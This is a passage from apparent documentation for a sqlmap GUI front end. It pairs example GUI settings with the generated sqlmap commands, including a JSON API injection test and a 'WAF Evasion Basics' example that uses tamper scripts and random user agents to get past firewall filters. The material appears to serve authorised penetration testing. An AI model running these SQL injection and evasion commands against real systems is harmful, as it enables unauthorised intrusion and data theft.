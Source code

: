 
**Generated Command:**
```bash
sqlmap -u "http://api.example.com/v1/users" --method=POST --data="{\"id\": 1, \"name\": \"test\"}" --header="Content-Type: application/json" --header="Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9..." -p "id,name" --level=3 --risk=2 --technique=BEU --string="success" --accept="application/json" --timeout=45 --ignore-cert
```

## 🛡️ WAF Evasion Basics

### Example 5: Basic WAF Bypass
**Scenario:** Test a protected application with basic WAF filters

**Target Information:**
- URL: `http://example.com/search.php?q=test`
- WAF: Basic SQL injection filters

**GUI Configuration:**
```
Target Tab:
├── URL: http://example.com/search.php?q=test
└── User-Agent: (leave default)

Injection Tab:
├── Testable Parameters: q
├── Tamper Scripts:
│   ├── space2comment
│   └── randomcase
├── Prefix: ' OR
└── Suffix: -- -

Detection Tab:
├── Level: 3
├── Risk: 2
├── Techniques: BT (Boolean + Time-based)
└── Time Delay: 3

Request Tab:
├── Delay: 2
├── Random Agent: ✓
└── Timeout: 60
```

**Generated Command:**
```bash
sqlmap -u "http://example.com/search.php?q=test" -p q --tamper=space2comment,randomcase --prefix="' OR " --suffix=" -- -" --level=3 --risk=2 --technique=BT --time-sec=3 --delay=2 --random-agent --timeout=60
```

## 📊 Database Discovery
